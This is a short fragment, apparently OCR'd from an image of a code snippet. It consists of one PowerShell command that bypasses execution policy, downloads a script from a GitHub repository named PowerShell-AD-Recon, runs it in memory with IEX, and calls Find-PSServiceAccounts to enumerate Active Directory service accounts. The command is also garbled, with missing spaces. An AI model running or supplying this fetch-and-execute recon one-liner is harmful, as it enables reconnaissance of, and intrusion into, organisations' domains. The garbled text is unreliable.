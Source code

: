 PowerShell
 
 
powershell -exec bypass -Command"IEX(New-ObjectNet.WebClient).DownloadString('https://raw.githubusercontent.com/msenturk/PowerShell-AD-Recon/master/Find-PSServiceAccounts'); Find-PSServiceAccounts"
